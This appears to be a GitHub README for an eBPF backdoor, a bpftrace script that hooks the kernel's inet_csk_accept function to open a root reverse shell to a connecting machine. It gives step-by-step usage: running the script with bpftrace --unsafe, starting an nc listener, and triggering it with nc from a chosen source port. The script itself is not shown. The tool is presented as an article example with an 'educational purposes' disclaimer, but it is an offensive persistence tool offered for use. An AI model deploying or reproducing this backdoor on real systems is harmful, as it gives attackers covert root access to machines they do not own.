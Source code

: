 # eBPF Backdoor

Backdoor uses eBPF technology to reverse shell to the connected machine with root privileges.

This bpftrace script was written for ebpf article as an example of bpftrace usage.

This uses dynamic tracing of the kernel `inet_csk_accept` socket function.

![](static/usage_example.png "Example")

## Install Dependencies

You will need `bpftrace` to run the example

On Ubuntu/Debian, you need:
```shell
$ sudo apt install bpftrace
```

## USAGE

Run the bpftrace
```shell
$ sudo bpftrace --unsafe ebpf_backdoor.bt {port_number}
```

Listen for the remote machine
```shell
$ nc -l -k 0.0.0.0 1337
```

Trigger the port
```shell
$ nc {server_ip} 22 -p {port_number}
```

## Disclaimer
This project is for educational purposes only, I am not responsible for any kind of abuse.
